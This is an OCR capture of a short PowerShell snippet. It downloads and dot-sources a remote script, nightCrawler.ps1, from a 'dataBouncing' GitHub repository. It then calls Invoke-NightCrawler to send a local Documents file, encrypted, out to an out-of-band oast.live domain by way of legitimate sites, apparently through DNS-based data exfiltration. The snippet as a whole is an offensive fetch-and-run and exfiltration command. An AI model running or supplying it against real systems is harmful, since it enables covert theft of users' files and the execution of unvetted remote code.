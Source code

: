 # Define variables
$scriptUrl  = 'https://raw.githubusercontent.com/Unit-259/dataBouncing/main/nightCrawler.ps1'
$localPath  = Join-Path $env:TEMP 'nightCrawler.ps1'

# Download the script file
Invoke-WebRequest -Uri $scriptUrl -UseBasicParsing -OutFile $localPath

# Dot-source the downloaded script to import its functions
. $localPath

Invoke-NightCrawler -Identifier "Req1" -Domain "d1ine12mq2v1dv57t1jgcxrw18n1pttme.oast.live" -Urls "adobe.com","github.com" -FilePath "C:\Users\ENBD_USER\Documents\Normal.txt" -EncryptionEnabled -EncryptionKey "Encryption@123"
